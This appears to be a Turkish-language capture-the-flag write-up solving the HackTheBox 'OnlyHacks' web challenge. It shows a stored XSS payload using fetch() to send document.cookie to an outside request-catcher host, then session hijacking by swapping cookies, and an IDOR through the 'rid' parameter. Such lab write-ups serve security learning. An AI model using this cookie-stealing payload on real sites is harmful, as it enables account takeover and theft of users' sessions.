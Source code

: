 ```yaml
---
title: 'HackTheBox | OnlyHacks WriteUp'
author: appdone
categories: [HackTheBox Challenges]
tags: [idor, xss]
render_with_liquid: false
media_subpath: /images/hackthebox_onlyhacks/
image:
  path: logo.webp
---
```


Bu yazımda HackTheBox platformunda yer alan “OnlyHacks” isimli meydan okumayı çözeceğim. Meydan okuma sevgililer gününe özel olarak hazırlanmış kolay seviye bir web uygumalasıdır.

![](1.webp){: width="1200" height="600" }

Kayıt olduktan sonra doğrudan eşleşmelerin yapıldığı sayfaya yönlendiriliyoruz. Gösterilen herkesi beğendikten sonra “Matches” sayfasına yöneliyoruz ve bir kişi ile eşleştiğimizi görüyoruz.

![](2.webp){: width="1200" height="600" }

Mesajlaşma alanında html etiketleri ve javascript kodları çalıştırabiliyoruz. Mesajlarımızın okunduğunu bildiğimiz için cookie bilgilerini almamızı sağlayacak bir javascript kodu yazabiliriz.

```
<script>
  fetch("https://test12345.requestcatcher.com/cookie?=" + document.cookie);
</script>
```

Cookie bilgilerini yakalamak için requestcatcher.com sitesini kullanacağım.

![](3.webp){: width="1200" height="600" }

Elde ettiğimiz cookie bilgilerini koplayalıp devtools aracılığıyla kendimizinkiyle değiştiriyoruz. Böylece sayfayı yenilediğimizde bayrağı başka bir kişiden gelen mesaj içerisinde buluyoruz.

![](4.webp){: width="1200" height="600" }

Bunun haricinde mesajları görüntülediğimiz sayfaya rid parametresi ile yönlendirildiğimizi fark etmişsinizdir. Buradaki değeri değiştirdiğimizde aynı şekilde bayrağı görebiliyoruz.

![](5.webp){: width="1200" height="600" }

Kısaca web uygulamasında hem XSS zafiyeti hemde IDOR zafiyeti barınıyor.
